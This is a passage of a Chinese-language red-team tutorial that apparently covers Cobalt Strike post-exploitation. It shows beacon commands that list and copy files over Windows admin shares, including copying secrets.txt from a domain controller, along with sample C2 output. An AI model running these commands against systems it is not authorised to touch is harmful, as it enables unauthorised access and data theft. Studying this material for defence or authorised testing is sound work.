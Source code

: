 ```powershell
```

## 3、无需恶意软件

如果一个系统信任我们为本地管理员权限，那么我们可以在那个系统上干什么呢？

**查看共享文件**

比如我们可以通过运行下面的命令来列出 C:\foo 的共享文件

```powershell
shell dir \\host\C$\foo
```

```powershell
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,393,984 可用字节
```

**复制文件**

比如运行下面的命令将 `secrets.txt`文件复制到当前目录。

```powershell
shell copy \\host\C$\foo\secrets.txt
```

```powershell
beacon> shell copy \\WinDC\C$\foo\secrets.txt
[*] Tasked beacon to run: copy \\WinDC\C$\foo\secrets.txt
[+] host called home, sent: 93 bytes
[+] received output:
已复制         1 个文件。
```

**查看文件列表**

比如运行下面的命令。其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息。

```powershell
shell dir /S /B \\host\C$
```

```powershell
beacon> shell dir /S /B \\WinDC\C$\Users
[*] Tasked beacon to run: dir /S /B \\WinDC\C$\Users
[+] host called home, sent: 67 bytes
[+] received output:
\\WinDC\C$\Users\administrator
\\WinDC\C$\Users\Classic .NET AppPool
\\WinDC\C$\Users\Daniel
\\WinDC\C$\Users\Public
\\WinDC\C$\Users\administrator\Contacts
\\WinDC\C$\Users\administrator\Desktop
\\WinDC\C$\Users\administrator\Documents
\\WinDC\C$\Users\administrator\Downloads
\\WinDC\C$\Users\administrator\Favorites
```